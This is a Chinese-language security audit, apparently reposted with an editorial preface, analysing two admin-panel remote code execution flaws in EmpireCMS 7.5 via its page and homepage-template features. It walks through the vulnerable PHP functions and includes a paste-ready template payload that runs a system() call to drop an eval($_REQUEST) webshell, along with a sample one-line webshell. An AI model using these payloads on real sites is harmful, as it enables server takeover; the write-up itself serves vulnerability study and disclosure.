## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：adminuserpage/indextemplatepermissions; candocodepolicy; writabletempfilesinclude; legacyPHPunquotedconstants/system

- **适用与权限边界（1）**：if(!$public_r\[candocode\])在null会进入，文字称null相当直接返回与条件矛盾；str_replace前后相同显示实体转义丢失可能。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：区分根目录shell.php是phpinfo输出而真正PHP在临时模板include执行，这个失败/成功差异很有价值。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：payload代码内literal&lt;br&gt;、未引号base64与(system)常量依旧PHP，不可原样当通用PHP。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（4）**：&lt;=7.5范围仅7.5测试无版本下界；后台允许模板PHP可能设计功能，需说明权限/禁代码配置边界。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **来源与引用处置（5）**：目录应并EmpireCMS而非整题；有原xz6228明确源，末尾卖CNVD/CVE证书广告去除。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 帝国 (EmpireCMS)7.5 的两个后台 RCE 审计

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/mw7o3go3oviybCMgqrsOkw)



```
本篇内容非作者原创，收录于先知社区：https://xz.aliyun.com/t/6228#toc-6

```

一  

漏洞描述

《帝国网站管理系统》英文译为＂EmpireCMS＂，它是基于 B/S 结构，安全、稳定、强大、灵活的网站管理系统．

该系统后台存在设计缺陷，导致攻击者通过该漏洞可直接获取服务器权限。

二  

二

影响版本

EmpireCMS<=7.5

三  

三

漏洞复现  

### **任意文件写入 1**

这个漏洞挖掘最初来源于 qclover 师傅: EmpireCMS_V7.5 的一次审计

但是在这篇复现的文章中还是有一些出入的地方，比如说 getshell 的具体位置和成因。这里重新跟进分析一下

首先看一下 getshell 的流程，这个洞有点像黑盒 to 白盒



**增加页面**功能，会在程序根目录生成一个 shell.php，访问为 phpinfo 结果

  

但是在我写入其他木马时，例如 <?php @eval($_REQUEST[hpdoger]);?>，根目录却生成了一个空的 shell.php 文件  



此时就有些疑问，推测真正的漏洞点应该不是在根目录写入一个 php，应该另有它径，这里分析一下漏洞产生的真正成因。  

### **任意文件写入 2**

承接上一个漏洞，整个 empirecms 不少用到 ob_get_contents 的地方，所以就想挖掘一下还有没有其他可以利用的点，最后把眼光锁在增加模版处。

在后台模版功能处，选择管理首页模版，然后点击**增加首页方案**



复制下面的 payload，填写到模版内容处，点击提交。  

```
<?php <br>$aa = base64_decode(ZWNobyAnPD9waHAgZXZhbCgkX1JFUVVFU1RbaHBdKTsnPnNoZWxsLnBocA);<br>${(system)($aa)};<br>?>

```



```
ZWNobyAnPD9waHAgZXZhbCgkX1JFUVVFU1RbaHBdKTsnPnNoZWxsLnBocA
=>
echo '<?php eval($_REQUEST[hp]);'>shell.php

```

再点击**启用此方案**即可 getshell，在 e/admin/template / 目录下生成 shell.php



  

四  

漏洞分析  

### **任意文件写入 1**

入口在 e/admin/ecmscom.php 代码 48 行，跟进函数 AddUserpage



重点关注两个参数的流程: path、pagetext  

  

步入 RepPhpAspJspcode 函数  

```
function RepPhpAspJspcode($string){
    global $public_r;
    if(!$public_r[candocode]){
        //$string=str_replace("<?xml","[!--ecms.xml--]",$string);
        $string=str_replace("<\\","<\\",$string);
        $string=str_replace("\\>","\\>",$string);
        $string=str_replace("<?","<?",$string);
        $string=str_replace("<%","<%",$string);
        if(@stristr($string,' language'))
        {
            $string=preg_replace(array('!<script!i','!</script>!i'),array('<script','</script>'),$string);
        }
        //$string=str_replace("[!--ecms.xml--]","<?xml",$string);
    }
    return $string;
}

```

这个函数用来对 pagetext 参数进行了 php 标签的实体化，但是 empirecms 默认 public_r[candocode] 为 null，所以这里相当于直接返回了原始 pagetext 的值

继续回到 AddUserpage 函数，接着步入 ReUserpage 函数，在 e/class/functions.php 的 4281 行  

  

获取程序的根路径后拼接传入的 path，而后 DoFileMKDir 在根目录建立了 shell.php

接着步入 InfoNewsBq 函数，也是这个漏洞产生的函数。关键代码在 e/class/functions.php 的 2469-2496 行  

  

$file 参数以 php 结尾，通过 WriteFiletext 函数向 $file 中写入上一步的 pagetext(这里为 $indextext)，而 WriteFiletext 是没有任何过滤的  

```
function WriteFiletext($filepath,$string){
    global $public_r;
    $string=stripSlashes($string);
    $fp=@fopen($filepath,"w");
    @fputs($fp,$string);
    @fclose($fp);
    if(empty($public_r[filechmod]))
    {
        @chmod($filepath,0777);
    }
}

```

于是在 e/data/tmp 目录下，以模版文件的形式写入 webshell，同时也将 AddCheckViewTempCode() 返回的权鉴方法写了进去，所以我们不能直接以 url 的方式访问这个 webshell。  

  

但是仍有方法使这个 webshell 执行并将结果输出。原因在下面这几行  

  

由于入口处定义了常量 InEmpireCMS，ob_get_contents 可以读取缓冲区的输出，而输出正好是刚才我们包含进去的 shell 的结果。因此执行了 phpinfo() 后将要输出到浏览器的内容赋值给了 $string 变量并返回，在 ReUserpage 函数中又进行了一次写入，缓冲结果写入的根目录下的 shell.php，造成一个表面 getshell 的现象，其实是一种 rce。  



### **任意文件写入 2**

在 e/class/functions.php 的 NewsBq 函数中调用 WriteFiletext 函数向 / e/data/tmp/index.php 中写入文件并包含



查找一下哪些地方调用`NewsBq`函数，最后锁定在`e/admin/template/ListIndexpage.php`的`DefIndexpage`中

